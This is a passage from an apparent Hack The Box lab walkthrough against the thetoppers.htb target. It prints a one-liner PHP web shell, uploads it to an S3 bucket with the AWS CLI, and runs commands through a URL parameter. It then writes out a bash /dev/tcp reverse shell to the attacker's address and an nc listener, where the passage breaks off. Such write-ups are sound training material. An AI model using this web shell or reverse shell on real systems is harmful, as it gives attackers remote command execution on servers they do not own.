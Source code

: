     ```shell
    aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
    ```

    ![](../assets/img/htb-starting-point/11.png)

11. Now we are going to create a **one-liner PHP** and upload it to the S3 bucket, the `system()` function use the URL parameter `cmd` as an input, to run **any linux command**

    ```shell
    echo '<?php system($_GET["cmd"]); ?>' > shell.php
    ```

    ```shell
    aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
    ```

12. Now go navigate the URL with the our shell.php (**Change the host record from `TARGET_IP s3.thetoppers.htb` to `TARGET_IP thetoppers.htb`)

    ```
    http://thetoppers.htb/shell.php?cmd=id
    ```

    ![](../assets/img/htb-starting-point/12.png)

    As the above picture shows it runs the linux command `id` through the `cmd` URL parameter

13. Now let's create a reverse shell `shell.sh` containing the following **bash reverse shell payload** which will connect back to our local machine via the `tun0` IP address on port `1337`

    ```bash
    #!/bin/bash
    bash -i >& /dev/tcp/<TUN0_IP>/1337 0>&1
    ```

14. Then we start a `ncat` listener on our local port `1337`

    ```bash
    nc -nvlp 1337
    ```
